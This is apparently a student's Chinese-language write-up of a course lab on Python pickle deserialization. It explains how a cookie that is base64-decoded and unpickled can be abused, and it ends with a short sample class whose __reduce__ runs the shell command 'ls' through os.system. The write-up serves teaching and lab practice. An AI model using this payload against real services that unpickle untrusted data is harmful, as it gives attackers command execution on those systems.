 # 2022 交大程式安全 HW11 writeup

## [LAB] Pickle
題目如下
![](assets/1-1.png)
提供的 source code
![](assets/1-2.png)
進入首頁的時候，如果沒有設定 cookie 的話會回傳登入頁面\
如果有設定 cookie 的話就會做 base64 decode 然後反序列化，並印出反序列化後的內容\
於是這邊可以利用 ```__reduce__``` 這個 magic method\
當被反序列化的時候會自動觸發 ```__reduce__``` function ，藉由 system 執行指令
```python
# sample.py
import pickle
from os import system

class exp:
    def __reduce__(self):
        return (system, ('ls',))
```